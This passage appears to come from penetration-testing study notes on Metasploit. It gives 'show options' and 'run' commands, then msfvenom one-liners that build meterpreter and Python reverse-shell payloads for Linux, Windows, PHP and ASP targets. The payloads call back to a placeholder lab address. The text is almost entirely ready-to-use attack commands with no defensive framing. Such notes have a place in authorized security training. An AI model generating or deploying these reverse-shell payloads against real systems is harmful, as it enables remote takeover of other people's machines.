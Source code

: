 Show options and run:

```bash
show options
run
```

### Generating Payloads for Different Systems

Examples for creating reverse payloads:

**Linux ELF:**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```

**Windows EXE:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

**PHP:**

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```

**ASP:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

**Python:**

```bash
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

Note: Always ensure the handler is set up to match the payload parameters.